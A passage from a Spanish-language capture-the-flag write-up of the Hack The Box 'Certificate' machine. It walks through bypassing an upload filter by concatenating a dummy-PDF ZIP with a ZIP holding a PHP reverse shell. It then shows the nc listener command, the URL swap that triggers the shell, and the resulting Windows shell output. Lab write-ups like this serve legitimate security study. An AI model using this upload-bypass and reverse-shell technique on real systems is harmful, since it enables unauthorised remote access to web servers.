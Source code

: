 URL = [GitHub Codigo Shell PHP](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

Ahora vamos a crear un archivo valido `PDF` con este comando:

```shell
echo "%PDF-1.4" > dummy.pdf
```

Ahora vamos a comprimirlo por separado de esta forma:

```shell
zip pdf.zip dummy.pdf
zip shell.zip shell.php
```

Vamos a concatenar los `ZIPs`:

```shell
cat pdf.zip shell.zip > bypass.zip
```

Antes de hacer nada vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora este `ZIP` lo subimos a la pagina, una vez echo esto si le damos al boton `HERE` veremos nuestro supuesto `dummy.pdf` en la pagina con un `404`, pero si modificamos ese archivo en la `URL` por el nombre de `shell.php` veremos que funciona.

> Pasar de esto:

```
URL = http://certificate.htb/static/uploads/8ad6b1453a685cd6a629959dcfb5039d/dummy.pdf
```

> Ha esto:

```
URL = http://certificate.htb/static/uploads/8ad6b1453a685cd6a629959dcfb5039d/shell.php
```

Ahora si volvemos donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.220] from (UNKNOWN) [10.10.11.71] 59955
SOCKET: Shell has connected! PID: 4468
Microsoft Windows [Version 10.0.17763.6532]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\certificate.htb\static\uploads\7b934ebcf8f621d619bd3a3854aa96fb>whoami
certificate\xamppuser
```

Veremos que ha funcionado, por lo que vamos a investigar un poco a ver que vemos interesante por aqui.

Investigando un poco y vamos listando los recursos de los directorios a medida que vamos llendo para atras, veremos en esta ruta algo interesante, que es donde se aloja la pagina web.

